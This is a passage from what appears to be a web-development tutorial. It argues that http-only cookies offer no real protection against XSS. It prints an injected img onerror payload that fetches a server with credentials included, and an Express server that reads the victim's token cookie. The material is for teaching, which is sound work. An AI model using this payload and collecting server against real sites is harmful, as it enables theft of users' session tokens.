 These headers grant my-page.com the "right" to send GET and POST requests with credentials to the backend server.

I cover "CORS" and related concepts in great detail in my Node.js - The Complete Guide course. You can also learn more about it in this article.

With that setup, everything works and we're using http-only cookies.

And now let's explore why this is not a single bit better than localStorage
#http-only Cookies and XSS

We can't read or write http-only cookies with client-side JavaScript code. Hence we got to be secured against XSS, right?

Well, what about this code?

// highlight-start
const userPickedImageUrl =
  'https://some-invalid-url.com/no-image!jpg" onerror="fetch("https://localhost:8000/", { credentials: "include" })'
// highlight-end

const contentWithUserInput = `
  <img src="${userPickedImageUrl}">
`

outputElement.innerHTML = contentWithUserInput

This code will send a request to localhost:8000 via the XSS-injected code.

And because of credentials: "include", all cookies (yes, also the http-only cookies) will be attached.

All we need is a backend server that could look like this:

const express = require('express')
const app = express()

app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', 'https://localhost:3000')
  res.setHeader('Access-Control-Allow-Methods', 'GET')
  res.setHeader('Access-Control-Allow-Credentials', true)
  next()
})

app.get('/', (req, res) => {
  token = req.headers.cookie
    .split('; ')
    .find((c) => c.startsWith('token'))
    .split('=')[1]
  res.json({ message: 'Got ya!' })
})
app.listen(8000)

This very simple server sets the right CORS headers, exposes a GET route to / and reads the token from the incoming cookies.

And that's it! Here you go, your http-only cookie is pretty worthless.

